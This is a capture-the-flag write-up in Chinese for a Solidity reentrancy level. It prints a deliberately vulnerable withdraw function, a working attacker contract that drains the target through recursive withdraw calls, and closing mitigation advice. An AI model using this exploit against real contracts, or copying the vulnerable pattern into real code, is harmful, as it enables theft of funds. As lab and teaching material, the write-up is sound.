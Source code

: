 # Re-entrancy

## 源码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## 要求
这一关的目标是偷走合约的所有资产.

## 分析
合约部署的时候转入了ETH,所以即使不调用`donate`合约里还是有余额的.
`withdraw`函数判断了用户的余额并提现,但是合约先`msg.sender.call{value:_amount}("")`,然后再`balances[msg.sender] -= _amount`改变状态,可以进行[重入攻击](https://github.com/AmazingAng/WTF-Solidity/blob/main/S01_ReentrancyAttack/readme.md).如果`msg.sender`是恶意合约(在`receive`或`fallback`调用`withdraw`)则会递归调用直至掏空合约.

## 攻击步骤
1. 实现攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

interface IReentrance {
    function donate(address to) external payable;

    function withdraw(uint256 amount) external;
}

contract ReentranceAttack {
    IReentrance public reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }

    function attack() external payable {
        //donate eth
        reentrance.donate{value: msg.value}(address(this));
        //withdrawß
        reentrance.withdraw(msg.value);
    }

    receive() external payable {
        if (address(reentrance).balance > 0) {
            reentrance.withdraw(msg.value);
        }
    }
}

```
2. 获取合约余额然后发送相同余额调用攻击合约`attack`(这里注意发送的eth需要和目标合约余额相同,因为`donate`进去正好是1:1,方便`withdraw`递归调用来掏空)

为了防止转移资产时的重入攻击, 使用 [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) 注意 `call` 只会返回 false 而不中断执行流. 其它方案比如 [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) 或 [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) 也可以使用.

`transfer` 和 `send` 不再被推荐使用, 因为他们在 Istanbul 硬分叉之后可能破坏合约 [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

假设资产的接受方可能是另一个合约, 而不是一个普通的地址. 因此, 他有可能执行了他的payable fallback 之后又“重新进入” 你的合约, 这可能会打乱你的状态或是逻辑.

重入是一种常见的攻击. 你得随时准备好!


